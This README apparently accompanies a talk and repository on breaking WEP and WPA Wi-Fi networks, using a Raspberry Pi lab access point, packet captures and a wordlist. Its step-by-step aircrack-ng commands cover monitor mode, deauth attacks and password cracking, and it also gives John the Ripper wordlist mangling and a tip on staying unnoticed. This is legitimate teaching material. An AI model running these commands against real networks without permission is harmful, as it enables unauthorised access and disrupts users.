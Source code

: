 HackerietWifi
=============

Recently I gave a very simple introduction to breaking wireless networks. My aim was
to give people an idea how it's done. I focused on WEP and WPA networks as they are still 
the most common networks found out there. 

For the wireless access point, I used a Raspberry Pi with a Edimax USB dongle on the hardware
side. For software, I used hostapd to get a simple wireless network up and running. The configuration
files for this can be found in the Configs directory. I also used a DHCP server on the Pi to 
ensure that clients connecting to my wireless network were given IP addresses. I could have also
provided network connectivity, but alas I was controlling the Pi over the ethernet connection. 

The packet captures for the WEP and WPA networks are available for cracking in the Pcaps directory.
The initial wordlist for the WPA network is also available but will not work properly with the 
tools without a little manipulation. 

Please note that the commands listed here are just a starting point. There is definitely a quicker
and more efficient way to do this. So check the command options and do a little research :)


Tools used: 
-----------


Aircrack-ng Suite : http://www.aircrack-ng.org

 - airmon-ng
 - airodump-ng
 - aircrack-ng
 - aireplay-ng


John the Ripper: http://www.openwall.com/john/


Snooping on wireless networks
-----------------------------

1. Enable a monitoring interface on your wireless NIC
 
```
airmon-ng start wlan1
```

2. Check that your card support packet injection

```
 aireplay-ng --test mon0 
```

3. Check what wireless networks are out there (find our targets)

```
 airodump-ng mon0
```


WEP Networks
------------

Following from the steps above...

4. Home in on our target network and start saving packets for cracking later

```
 airodump-ng --bssid 00:1F:1F:A8:9D:34 --channel 1 mon0 -w packetcapture.pcap
```

5. Run a "deauth" attack to knock client off the target network
 
```
 aireplay-ng --deauth 10 -a 00:1F:1F:A8:9D:34 --channel 1 mon0 
```


You can either continue to do this and probably get noticed, or shift your attack
to something a little sneakier. Either way you will want to get as much data as you 
can in order to crack the password.

6. Crack that password
 
```
 aircrack-ng -a 1 packetcapture.pcap
```


Wordlists
---------

Our initial wordlist (wordlist.txt) is probably not quite up to scratch, but with a little
manipulation from John, it may be more useful. 

```
 john --wordlist=wordlist.txt --rules --stdout > new_superleet_wordlist.txt
```


WPA Networks 
------------

Pretty much the same as above, except you will just need to deauth a client in order to 
capture that four way handshake that happens with the WPA authentication process.
If you look in the top right corner of the airodump-ng window, you should see that you've
successfully captured the handshake.

After that it's up to having either a good wordlist or decent rainbow tables.
Without those, you will be in trouble...


```
 aircrack-ng -a 2 -w new_superleet_wordlist.txt wpa_packetcapture.pcap
```


That's all there is to it really. 

If there are any questions, comments or ideas on this...please get in touch.


